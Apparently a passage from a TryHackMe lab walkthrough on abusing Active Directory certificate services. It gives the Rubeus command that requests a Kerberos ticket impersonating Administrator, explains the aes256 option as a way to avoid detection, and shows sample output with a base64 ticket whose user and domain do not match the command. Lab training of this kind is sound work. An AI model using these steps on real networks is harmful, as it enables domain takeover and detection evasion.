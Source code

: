 * Use the certificate to request a Kerberos ticket-granting ticket (TGT)
* Load the Kerberos TGT into your hacking platform of choice

For the first step, we will be using [Rubeus](https://github.com/GhostPack/Rubeus). An already compiled version is available in the `C:\Tools\` directory. Open a command prompt window and navigate to this directory. We will use the following command to request the TGT:

```
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<path to certificate> /password:<certificate file password> /outfile:<name of file to write TGT to> /domain:za.tryhackme.loc /dc:<IP of domain controller>
```

Let's break down the parameters:

* **/user** - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated
* **/enctype** -This specifies the encryption type for the ticket. Setting this is important for evasion, since the default encryption algorithm is weak, which would result in an overpass-the-hash alert
* **/certificate** - Path to the certificate we have generated
* **/password** - The password for our certificate file
* **/outfile** - The file where our TGT will be output to
* **/domain** - The FQDN of the domain we are currently attacking
* **/dc** - The IP of the domain controller which we are requesting the TGT from. Usually it is best to select a DC that has a CA service running

Once we execute the command, we should receive our TGT:

```
C:\THMTools> .\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:12.31.1.101
          ______        _
         (_____ \      | |
          _____) )_   _| |__  _____ _   _  ___
         |  __  /| | | |  _ \| ___ | | | |/___)
         | |  \ \| |_| | |_) ) ____| |_| |___ |
         |_|   |_|____/|____/|_____)____/(___/
       
         v2.0.0
       
       [*] Action: Ask TGT
       
       [*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=vulncert
       [*] Building AS-REQ (w/ PKINIT preauth) for: 'lunar.eruca.com\svc.gitlab'
       [+] TGT request successful!
       [*] base64(ticket.kirbi):
       
             doIGADCCBfygAwIBBaEDAgEWooIE+jCCBPZhggTyMIIE7qADAgEFoREbD0xVTkFSLkVSVUNBLkNPTaIk
             MCKgAwIBAqEbMBkbBmtyYnRndBsPbHVuYXIuZXJ1Y2EuY29to4IErDCCBKigAwIBEqEDAgECooIEmgSC
             BJaqEcIY2IcGQKFNgPbDVY0ZXsEdeJAmAL2ARoESt1XvdKC5Y94GECr+FoxztaW2DVmTpou8g116F6mZ
             nSHYrZXEJc5Z84qMGEzEpa38zLGEdSyqIFL9/avtTHqBeqpR4kzY2B/ekqhkUvdb5jqapIK4MkKMd4D/
             MHLr5jqTv6Ze2nwTMAcImRpxE5HSxFKO7efZcz2glEk2mQptLtUq+kdFEhDozHMAuF/wAvCXiQEO8NkD
             zeyabnPAtE3Vca6vfmzVTJnLUKMIuYOi+7DgDHgBVbuXqorphZNl4L6o5NmviXNMYazDybaxKRvzwrSr
             2Ud1MYmJcIsL3DMBa4bxR57Eb5FhOVD29xM+X+lswtWhUO9mUrVyEuHtfV7DUxA94OvX1QmCcas4LXQW
             ggOit/DCJdeyE8JjikZcR1yL4u7g+vwD+SLkusCZE08XDj6lopupt2Hl8j2QLR2ImOJjq54scOllW4lM
             Qek4yqKwP6p0oo4ICxusM8cPwPUxVcYdTCh+BczRTbpoKiFnI+0qOZDtgaJZ/neRdRktYhTsGL39VHB5
             i+kOk3CkcstLfdAP1ck4O+NywDMUK+PhGJM/7ykFe2zICIMaGYGnUDRrad3z8dpQWGPyTBgTvemwS3wW
             NuPbQFFaoyiDiJyXPh+VqivhTUX9st80ZJZWzpE7P1pTNPGq38/6NyLjiE9srbOt6hCLzUaOSMGH1Enf
             SYmNljeW2R0gsFWBaFt16AHfT9G9Et2nOCJn/D/OFePFyR4uJF44p82CmVlBhzOxnCaGtQM2v9lwBqQF
             CcVLjxGXqKrPUr1RUGthP861jhMoXD4jBJ/Q32CkgVdlJRMweqcIfNqP/4mEjbUN5qjNqejYdUb/b5xw
             S794AkaKHcLFvukd41VTm87VvDOp6mM5lID/PLtTCPUZ0zrEb01SNiCdB5IAfnV23vmqsOocis4uZklG
             CNdI1/lsICpS/jaK6NM/0oKehMg+h4VAFLx4HnTSY4ugbrkdxU948qxPEfok/P6umEuny7yTDQFoCUKk
             RuLXbtwwplYTGBDLfzwhcNX8kc/GGLbH9+B8zRXxhd3TGQ7ZT03r798AjobKx024ozt6g4gjS5k/yIT+
             f29XrPzc+UODunO2Qv8JM5NAE3L6ryHp/DdgTaXGBRccgQBeQERNz6wxkdVK6SB7juOjU5JoZ5ZfmTuO
             hQ5hnboH1GvMy4+zeU2P7foWEJE76i9uZMbjUilbWRERYUL/ZjjXQBVWBaxoAdFIoawAzSXUZniNavnS
             n22qqgbd79Zj+lRavAb7Wlk5Gul4G6LMkh2MIJ4JOnrV0JV1yOhoqZ5V6KX/2r7ecyrVZIf2Qf0+ci9G
```